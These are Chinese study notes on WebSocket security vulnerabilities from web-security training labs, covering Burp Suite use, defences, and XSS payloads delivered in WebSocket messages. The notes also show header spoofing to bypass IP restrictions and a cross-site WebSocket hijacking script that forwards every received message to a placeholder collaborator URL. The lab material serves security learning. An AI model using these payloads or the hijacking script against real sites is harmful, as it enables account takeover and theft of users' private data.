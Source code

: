 # WebSockets
- 透過 HTTP 發起，並提供雙向非同步通訊的長連接
- problem :
  - Browser: XSS / CSRF
  - Server : SQLi / XXE / SSRF
 
# Burp Suite
- 攔截並修改 WebSocket 訊息。
- 重播並產生新的 WebSocket 訊息。
- 操作 WebSocket 連線。

## 使用 Burp Proxy 攔截和修改 WebSocket 訊息
- Intercept : 確保攔截已開啟。
- Repeater : 重播單一訊息並產生新訊息

## 操作 WebSocket 連接
- 使用 Burp Repeater 操縱 WebSocket 握手
- WebSocket URL 旁的鉛筆圖

# WebSockets 安全漏洞
- 使用者提供的輸入 : SQL 注入或 XML 外部實體注入等漏洞
- 盲漏洞 :使用帶外 (OAST) 技術來偵測
- 導致 XSS 或其他用戶端漏洞
- 篡改 WebSocket 訊息的內容來發現和利用

## example 
- WebSocket 訊息 : {"message":"Hello Carlos"}
- 瀏覽器 : <td>Hello Carlos</td>
- XSS 攻擊 : {"message":"<img src=1 onerror='alert(1)'>"}

## Lab: Manipulating WebSocket messages to exploit vulnerabilities
- 點擊「即時聊天」並發送聊天訊息
- Proxy  : WebSockets 歷史記錄
- 使用瀏覽器發送包含字元的新訊息<
- <img src=1 onerror='alert(1)'>

## 操縱 WebSocket 握手來利用漏洞
- 錯誤地信任 HTTP 標頭來執行安全性決策
- X-Forwarded-For標頭

## Lab: Manipulating the WebSocket handshake to exploit vulnerabilities
- X-Forwarded-For: 1.1.1.1
- 混淆的 XSS 有效負載 : <img src=1 oNeRrOr=alert`1`>

## 跨站 WebSocket 劫持攻擊
- 利用 WebSocket 握手過程中的跨站請求偽造 (CSRF) 漏洞
- 當 WebSocket 握手請求僅依賴 HTTP Cookie 進行會話處理，且不包含任何 CSRF 令牌或其他不可預測的值時
- 偽裝成受害者使用者執行未經授權的操作
- 檢索使用者可以存取的敏感資料
- 找到一個僅依賴 HTTP cookie 進行會話處理的握手訊息

      GET /chat HTTP/1.1
      Host: normal-website.com
      Sec-WebSocket-Version: 13
      Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
      Connection: keep-alive, Upgrade
      Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
      Upgrade: websocket

## Lab: Cross-site WebSocket hijacking
    <script>
        var ws = new WebSocket('wss://your-websocket-url');
        ws.onopen = function() {
            ws.send("READY");
        };
        ws.onmessage = function(event) {
            fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
        };
    </script>
- Burp Collaborator

## 如何保護 WebSocket 連接
- 使用wss://協定（TLS 上的 WebSockets）
- 對 WebSockets 端點的 URL 進行硬編碼
- 保護 WebSocket 握手訊息免受 CSRF 攻擊
- 將透過 WebSocket 接收的資料視為雙向不可信資料。
